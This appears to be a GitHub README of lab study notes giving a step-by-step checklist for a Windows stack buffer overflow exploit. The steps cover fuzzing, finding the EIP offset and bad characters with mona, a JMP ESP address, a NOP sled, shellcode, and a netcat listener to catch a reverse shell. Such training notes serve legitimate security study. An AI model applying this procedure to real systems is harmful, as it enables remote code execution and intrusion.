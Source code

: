 # BufferOverflow

Buffer overflow steps

xfreerdp /u:admin /p:password /cert:ignore /v:MACHINE_IP /workarea
!mona config -set working folder c:\mona\%p

1. FUZZ w/ correct IP address + port
2. /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l (fuzz + 400)
3. Run exploit.py with above payload in payload var
4. !mona findmsp -distance (fuzz + 400) (finds EIP offset)
5. Put offset in exploit.py + BBBB + remove payload
6. !mona bytearray -b "\x00"
7. Run bad chars script, set payload to this
8. Run exploit, get ESP address
9. !mona compare -f C:\mona\oscp\bytearray.bin -a ESPAddress (check if chars are actually bad or not)
10. !mona bytearray -b "\x00\x07\x2e\xa0" (look for unmodified)
11. !mona jmp -r esp -cpb "\x00\x07\x2e\xa0" (or whatever bad chars)
12. Put address in return var (0x625011af should be written as \xAF\x11\x50\x62)
13. padding = "\x90" * 16
14. Run shellcode
15. Insert shellcode into exploit.py
16. Nc -nlvp 4444
17. Run program, run exploit.py
